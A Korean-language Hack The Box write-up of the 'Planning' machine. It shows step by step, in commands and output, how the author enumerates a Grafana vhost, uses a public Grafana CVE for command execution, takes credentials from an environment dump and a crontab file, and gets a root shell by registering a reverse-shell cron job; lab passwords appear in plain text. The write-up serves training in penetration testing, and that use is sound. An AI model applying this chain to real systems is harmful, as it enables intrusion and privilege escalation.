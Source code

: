 ```yaml
---
layout: post
title: Hack The Box - Planning
subtitle: Hack the box planning machine
category: writeup
thumbnail-img: /assets/img/writeup/HTB/planning/pwned.png
tags:
  [
    writeup,
    hackthebox,
    planning,
    ssh,
    tunneling,
    portforwarding,
    vhost,
    netstat,
  ]
author: Hong
---
```


# 시작 크레덴셜

이번 머신은 처음에 크레덴셜이 주어진다.

`admin / 0D5oT70Fq13EvB5r`

로그인에 사용되겠다는 것을 인지.

# nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
|_http-server-header: nginx/1.24.0 (Ubuntu)
```

ssh와 웹서버가 열려있다.

웹서버에 로그인 페이지가 있는지 디렉토리를 찾아봤다.

# Web enum

## directory fuzzing

`gobuster dir -u http://planning.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -x php -t 40`

```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/js                   (Status: 301) [Size: 178] [--> http://planning.htb/js/]
/css                  (Status: 301) [Size: 178] [--> http://planning.htb/css/]
/contact.php          (Status: 200) [Size: 10632]
/img                  (Status: 301) [Size: 178] [--> http://planning.htb/img/]
/lib                  (Status: 301) [Size: 178] [--> http://planning.htb/lib/]
/about.php            (Status: 200) [Size: 12727]
/index.php            (Status: 200) [Size: 23914]
/detail.php           (Status: 200) [Size: 13006]
/course.php           (Status: 200) [Size: 10229]
/enroll.php           (Status: 200) [Size: 7053]
```

결과들을 하나하나 살펴봐도 로그인 화면은 없었다.

## subdomain fuzzing

`ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://planning.htb -fs 178 -H "Host: FUZZ.planning.htb"`

`gobuster dns -d planning.htb -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 40`

서브도메인은 딱히 없다.

## vhost

`ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.11.68 -H "Host: FUZZ.planning.htb" -fs 178`

```
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.68
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 204ms]
```

vhost를 퍼징하니 하나가 검색되었다. 서브도메인과는 다르게 타겟을 IP주소로 설정해야 vhost 모드가 된다.

`grafana.planning.htb`를 `/etc/hosts` 파일에 추가 후 사이트를 살펴본다.

![login](/assets/img/writeup/HTB/planning/login.png)

드디어 로그인 페이지가 나왔다.

처음에 주어진 크레덴셜로 로그인한다.

로그인에는 성공했지만 딱히 취약점을 찾지는 못했다.

버전을 확인.

`whatweb http://grafana.planning.htb`

```
http://grafana.planning.htb/login [200 OK] Country[RESERVED][ZZ], Grafana[11.0.0], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.10.11.68], Script[text/javascript], Title[Grafana], UncommonHeaders[x-content-type-options], X-Frame-Options[deny], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block], nginx[1.24.0]
```

버전이 11.0.0이다. 찾아보니 관련 [CVE](https://github.com/nollium/CVE-2024-9264)가 있었다.

poc를 사용하면 리모트 명령어가 실행 가능한데 직접 리버스쉘을 연결하는 것은 불가능했다.

무슨 환경인지 파악하기 위해 `env` 명령어를 입력.

```
GF_PATHS_LOGS=/var/log/grafana
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
```

그랬더니 enzo라는 유저와 패스워드가 적혀있다. ssh로 로그인 해보니 성공.

# 권한상승

여기저기 파일들을 살펴보다가 `/opt/crontabs`에서 비밀번호가 적혀있는 파일을 발견했다.

```
cat crontab.db 
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

어디에 쓰는 비밀번호인지 아직은 모르겠다.

로컬에서 실행중인 다른 서비스를 보기 위해 `netstat -lntpu`를 입력.

```
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:35379         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.54:53           0.0.0.0:*                           -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
```

3000번과 8000번이 신경쓰인다.

ssh로 포트포워딩 한 후 접속해본다.

`ssh -N -L localhost:8000:localhost:8000 enzo@10.10.11.68`

8000번은 아까 봤던 grafana의 로그인 화면.

3000번을 접속해보면 로그인 페이지가 나온다.

위에서 찾은 비밀번호를 이용하는 것 같은데 아이디가 모르겠다.

파일안에 `root_grafana` 부분이 있었기 때문에 `root / P4ssw0rdS0pRi0T3c`를 넣어봤더니 로그인 성공했다.

![cron](/assets/img/writeup/HTB/planning/cronjobs.png)

아까 파일에서 봤던 크론잡이 등록되어 있다.

root로 실행되기 때문에 리버스쉘 페이로드를 등록했더니 루트로 쉘이 연결됐다!

